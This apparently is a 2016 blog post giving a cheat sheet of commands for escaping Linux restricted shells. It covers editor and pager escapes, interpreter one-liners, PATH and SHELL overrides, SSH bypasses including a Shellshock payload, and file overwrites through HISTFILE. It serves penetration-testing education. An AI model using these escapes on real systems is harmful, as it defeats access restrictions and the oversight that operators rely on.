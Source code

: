 ```yaml
---
layout: post
title: "Breaking out of jail shells"
date: 2016-10-23
permalink: /blog/:year/:month/:day/:title.html
---
```

This is a quick post on breaking out of linux jail/restricted shells.

Always run your reconnaissance!  

* Run **env** to list out exported environment variables.
* **echo $SHELL** what shell are we in?
* **echo $PATH** what is our path set to?
* Can you just exploit a running process to escalate privileges and not need to escape out of your shell?
* Run some basic commands what is and isn\'t allowed? **ls,pwd,cp,mv,env,set,export,vi,\.\.\.**  

Quick wins from jail  

* Can you run **cp**? Just copy a file into your path.
  * **`cp /bin/sh /a/dir/from/path; sh`**
* Is \'/\' allowed?
  * Run **`/bin/sh`**
* Can you use **export**?
  * **`export PATH=/bin:/usr/bin:$PATH`**
  * **`export SHELL=/bin/sh`**
* Do you have access to commands that let you execute different system commands?
  * **ftp: `!/bin/sh`**
  * **gdb: `!/bin/sh`**
  * **more/less/man: `?!/bin/sh`**
  * **vi/vim: `:!/bin/sh`**
  * **scp: `scp -S /tmp/naughty.sh x y:`**
  * **awk: `awk 'BEGIN {system('/bin/sh')}'`**
  * **find `find / -name something -exec /bin/sh \;`**
* Don\'t forget about your favorite language!
  * **python: `python -c 'import os; os.system("/bin/bash")'`**
  * **perl: `perl exec "/bin/sh";`**
  * **ruby: `ruby exec "/bin/sh"`**
  * **lua: `lua os.execute('/bin/sh')`**  

Quick wins from outside jail  

* Just execute commands before your shell is loaded.
  * **`ssh user@10.10.10.10 -t "/bin/sh"`**
* Don\'t start the rc profile
  * **`ssh user@10.10.10.10 -t "bash --noprofile"`**
* Try shellshock
  * **`ssh user@10.10.10.10 -t "() { :; }; /bin/bash"`**  

Getting creative  

* Using **tee** to write a script.
  * **`echo 'evil code' | tee script.sh`**
* History file
  * Set **HISTFILE** variable to a file you want to overwrite
  * Set **HISTSIZE** variable to **0** then immediately to **100**
  * Execute lines that should be written to your file
  * Log out and back in again.

Looking for more ways? [Google](http://bfy.tw/8Lq2)
